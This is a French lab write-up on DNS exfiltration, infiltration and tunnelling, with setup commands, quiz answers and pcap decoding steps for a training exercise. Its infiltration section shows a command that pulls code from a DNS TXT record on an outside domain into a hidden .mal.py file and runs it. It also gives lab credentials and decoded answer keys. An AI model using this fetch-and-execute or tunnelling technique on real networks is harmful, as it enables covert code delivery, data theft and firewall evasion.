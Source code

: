 ## Manipulation de DNS

Lors de ce TP nous explorerons les techniques utilisées pour exfiltrer et infiltrer les données à travers des serveurs DNS.<br/>

A quoi servent les serveurs DNS ?<br/>
Le DNS est un système de noms de domaine faisant référence à un système de nommage qui résout les noms de domaine avec des adresses IP. Les serveurs DNS sont répartis dans le monde entier et sont constamment mis à jour et synchronisés entre eux de manière systématique.
<p align="center">
  <img src="https://blog.nameshield.com/fr/wp-content/uploads/sites/3/2017/04/r%C3%A9solution-dns-2-5.jpg"/>
</p>

L'objet sera d'explorer les techniques pour exfiltrer et infiltrer les données ainsi que le Tunneling de DNS Tunneling et comment il peut être utilisé pour bypasser différents protocoles comme HTTP via DNS.

<p align="center">
  <img src="https://cdn.discordapp.com/attachments/798799811482353734/798809211060355092/intro-2-1.png"/>
</p>

##### Installation de l'environnement de travail pour le TP :

```console
$ git clone https://github.com/kleosdc/dns-exfil-infil

$ sudo apt-get update
$ sudo apt-get install python3-pip
$ export PATH=/usr/local/bin:$PATH

$ sudo pip3 install base58
$ sudo pip3 install pyshark
```

Iodine permet de tunneler les données IPv4 via un serveur DNS. Cela peut être utile dans différentes situations où l'accès Internet est protégé par un pare-feu, mais les requêtes DNS sont autorisées.

Installer iodine :
```console
$ sudo apt-get install iodine
```

Wireshark est un analyseur de paquets libre et gratuit. 

Installer Wireshark :
```console
$ sudo apt-get install tshark
```

---

#### DNS :

Sous Windows, quelle commande utiliser pour requêter un enregistrement txt pour YouTube.com ?
```console
Réponse : nslookup type=txt youtube.com
```

Sous Linux, quelle commande utiliser pour requêter un enregistrement txt pour Facebook.com ?
```console
Réponse : dig -t txt facebook.com
```

Quel type d'adresses IP stocke le AAAA avec le nom de hôte ?
```console
Réponse : IPv6
```

Le nombre maximum de caracttères pour un enrigrement DNS est de 256. Vrai/Faux ?
```console
Réponse : Faux
```

Quel enregistrement DNS donne le nom du domaine en reverse-lookup ?
```console
Réponse : PTR
```

Quel serait le résultat d'un reverse-lookup pour l'adresse IPv4 suivante : 192.168.203.2 ?
```console
Réponse : 2.203.168.192.in-addr.arpa
```

Quelle est la taille maximale d'un nom DNS ? (en incluant les points!)
```console
253
```

---

#### Exfiltration DNS :

Se connecter à la machine cible en SHH en utilisant les crédentials :
* Utilsateur : user
* Mot de passe : P@ssword01

Parcourir les fichiers dans les dossiers :
```console
~/challenges/exfiltration
~/dns-exfil-infil/
```

```console
cd ~/challenges/exfiltration/orderlist
tshark -r order.pcap -T fields -e dns.qry.name > DNS_names.txt
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Ignorer l'exception levée à la fin du script

Quel est le nom de la première transation ? 
```console
Réponse : Network Equip.
```

Quel est le montant de la transaction Firewall ?
```console
Réponse : 2500
```
Aller dans le dossier :
```console
~/challenges/exfiltration/identity
```

Pour chaque fichier *.pcap
```console
tshark -r cap1.pcap -T fields -e dns.qry.name
python3 ~/dns-exfil-infil/packetyGrabber.py
```

Quel fichier contient des requêtes DNS douteuses ?
```console
Réponse : cap3.pcap
```

Renseigner les texte après avoir décodé les données en utilisant le programe Pyhton packetyGrabber.py qui se trouve dans le dossier `~/dns-exfil-infil/`.
```console
Réponse : administrator:s3cre7P@ssword
```

---

#### Infiltration DNS :

Lire les instructions dans le fichier : 
```console
$ cat ~/challenges/infiltration/TASK
```

```console
$ nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mal.py

$ python3 ~/dns-exfil-infil/packetySimple.py

$ python3 .mal.py
```

Réponse : 4.4.0-186-generic
